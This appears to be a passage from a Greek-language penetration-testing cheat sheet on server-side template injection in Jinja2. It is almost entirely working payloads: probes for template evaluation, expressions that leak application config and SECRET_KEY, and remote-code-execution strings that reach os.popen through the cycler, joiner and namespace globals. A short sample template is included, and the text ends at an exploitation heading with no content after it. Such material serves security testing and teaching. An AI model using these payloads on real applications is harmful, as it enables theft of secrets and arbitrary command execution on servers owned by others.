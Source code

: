 [Επίσημη ιστοσελίδα](http://jinja.pocoo.org)

> Το Jinja2 είναι μια πλήρης μηχανή προτύπων για Python. Έχει πλήρη υποστήριξη unicode, μια προαιρετική ενσωματωμένη εκτελούμενη sandboxed περιβάλλον, είναι ευρέως χρησιμοποιούμενη και άδεια BSD.

* `{{7*7}} = Σφάλμα`
* `${7*7} = ${7*7}`
* `{{foobar}} Τίποτα`
* `{{4*4}}[[5*5]]`
* `{{7*'7'}} = 7777777`
* `{{config}}`
* `{{config.items()}}`
* `{{settings.SECRET_KEY}}`
* `{{settings}}`
* `<div data-gb-custom-block data-tag="debug"></div>`
```python
{% raw %}
{% debug %}
{% endraw %}





{{settings.SECRET_KEY}}
{{4*4}}[[5*5]]
{{7*'7'}} would result in 7777777
```
**Jinja2 - Μορφή προτύπου**
```python
{% raw %}
{% extends "layout.html" %}
{% block body %}
<ul>
{% for user in users %}
<li><a href="{{ user.url }}">{{ user.username }}</a></li>
{% endfor %}
</ul>
{% endblock %}
{% endraw %}


```
[**RCE που δεν εξαρτάται από**](https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/) `__builtins__`:
```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}

# Or in the shotest versions:
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```
**Περισσότερες λεπτομέρειες σχετικά με το πώς να εκμεταλλευτείτε το Jinja**:
